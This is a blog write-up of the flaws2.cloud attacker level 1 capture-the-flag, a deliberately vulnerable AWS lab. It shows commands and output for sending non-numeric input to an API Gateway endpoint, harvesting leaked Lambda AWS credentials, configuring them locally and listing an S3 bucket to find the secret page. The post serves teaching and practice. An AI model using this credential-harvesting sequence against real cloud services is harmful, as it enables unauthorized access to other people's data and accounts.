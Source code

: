 +++
date = '2025-04-20T20:00:00+01:00'
draft = false
title = 'CTF - flaws2.cloud Attacker Level 1'
author = 'B. Motyl'
tags = ["IT", "Security", "CTF", "flaws2.cloud"]
+++

## Abstract
In the <flaws2.cloud> Capture The FLag (CTF) attacker level 1
challenge, participants must bypass a 100 digit PIN requirement to
progress.  This document is a report of a an attempt to solve the
mentioned CTF level.  It provides an overview of the methods and 
steps taken to achieve the solution.


## Status of This Memo
This document is published for informational purposes.  It serves
as a recorded reference for the author's attempt, helping to retain
the steps taken.  Additionally, it can be used as a guideline for
presentations or as a teaching resource to help other teams learn
the concepts and techniques involved in solving this CTF.

## Copyright Notice
This document is licensed under the Creative Commons Attribution 4.0
International License (CC BY 4.0).

## Table of Contents
{{< toc >}}

## 1. Information Gathering - Hosting

Destination <level1.flaws2.cloud> was pinged in attempt to find more
clues.

```
ping -c 3 level1.flaws2.cloud
```

```
PING level1.flaws2.cloud (52.217.66.171) 56(84) bytes of data.
64 bytes from s3-website-us-east-1.amazonaws.com (52.217.66.171): icmp_seq=1 ttl=234 time=110 ms
64 bytes from s3-website-us-east-1.amazonaws.com (52.217.66.171): icmp_seq=2 ttl=234 time=133 ms

--- level1.flaws2.cloud ping statistics ---
3 packets transmitted, 2 received, 33.3333% packet loss, time 2001ms
rtt min/avg/max/mdev = 109.742/121.539/133.337/11.797 ms

```
In a result of pinging, obtained <s3-website-us-east-1.amazonaws
.com> gives information that:
	- website is hosted on s3 bucket,
	- region is us-east-1.


## 2. Information Gathering - Website's Code

Using curl to see source code of the website.

```
curl -X GET level1.flaws2.cloud
```
```
...
<form name="myForm" 
action="https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1" 
onsubmit="return validateForm()">
...
```

URL <https\://2rfismmoo8.execute-api.us-east-1.amazonaws.com/
default/level1> has been observed.  URL structure indicated AWS API
Gateway, as it has following structure <https\://api-id.execute-api.
region.amazonaws.com/stage/>.  Structure is stated in the provided
source <https\://docs.aws.amazon.com/apigateway/latest/
developerguide/how-to-call-api.html>.  Dissecting URL shows that API 
ID is "2rfismmoo8", region is "us-east-1", and stage is "level1".

## 3. [Failed] Exploitation of Excessive Privileges

Attempt to access resources using aws cli v2 and random or no
credentials was unsuccessful.
```
aws s3 ls s3://level1.flaws2.cloud --region us-east-1 --no-sign-request
aws apigateway get-resources --rest-api-id 2rfismmoo8 --region us-east-1
aws apigateway get-stage --rest-api-id 2rfismmoo8 --stage-name default --region us-east-1
aws apigateway get-method --rest-api-id 2rfismmoo8 --resource-id level1 --http-method GET --region us-east-1
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2...
An error occurred (AccessDeniedException) when calling the GetResources...
An error occurred (AccessDeniedException) when calling the GetStage...
An error occurred (AccessDeniedException) when calling the GetMethod
```

## 4. [Succeeded] Sending Invalid Input

Attemp to call AWS API Gateway resource directly results in 301
redirect.
```
curl -i  https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=1234
```
```
HTTP/2 301
...
location: http://level1.flaws2.cloud/index.htm?incorrect
...
x-amz-apigw-id: HH8hfFAXIAMEUAw=
```

Note "x-amz-apigw-id" header, it is not id of API Gateway, notice
when calling it again will result in a different value.
```
curl -i  https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=1234
```
```
HTTP/2 301 
...
location: http://level1.flaws2.cloud/index.htm?incorrect
...
x-amz-apigw-id: HH9UPFV1oAMETtw=
...
```

Challenge mentions pin.  An attempt to send something different than
number.
```
curl -i  https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=a
```
More data is returned, including aws credentials and name of a
lambda.
```
{
  "AWS_ACCESS_KEY_ID": "ASI...,
	"AWS_LAMBDA_LOG_GROUP_NAME": "/aws/lambda/level1",
  "AWS_LAMBDA_FUNCTION_NAME": "level1",
	"AWS_SESSION_TOKEN": "IQo...	
	"AWS_SECRET_ACCESS_KEY": "e7J...
	"AWS_DEFAULT_REGION": "us-east-1",
	...
}
```

## 5. Capturing The Flag

Configuring credentials.

```
vim ~/.aws/credentials
```
```
[default]
aws_access_key_id = ASI...
aws_secret_access_key = e7J...
aws_session_token = IQo...
```

Checking credentials.
```
aws sts get-caller-identity
```
```
{
    "UserId": "ARO...:level1",
    "Account": "653...",
    "Arn": "arn:aws:sts::653...:assumed-role/level1/level1"
}
```

Attempt to list lambdas fails.
```
aws lambda list-functions --region us-east-1
```
```
An error occurred (AccessDeniedException) when calling the ListFunctions...
```

Attempt to list s3 buckets fails.
```
aws s3 ls
```

```
An error occurred (AccessDenied) when calling the ListBuckets...
```

Attempt to list level1 s3 bucket succeeds.
```
aws s3 ls s3://level1.flaws2.cloud --region us-east-1
```
```
                           PRE img/
2018-11-20 21:55:05      17102 favicon.ico
2018-11-21 03:00:22       1905 hint1.htm
2018-11-21 03:00:22       2226 hint2.htm
2018-11-21 03:00:22       2536 hint3.htm
2018-11-21 03:00:23       2460 hint4.htm
2018-11-21 03:00:17       3000 index.htm
2018-11-21 03:00:17       1899 secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html
```

Get page <http\://level1.flaws2.cloud/
secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html>
```
curl level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html
```
```
...
The next level is at <a href="http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud">http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud</a>
...
```

Next level is at <http\://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.
flaws2.cloud>

{{</ toc >}}
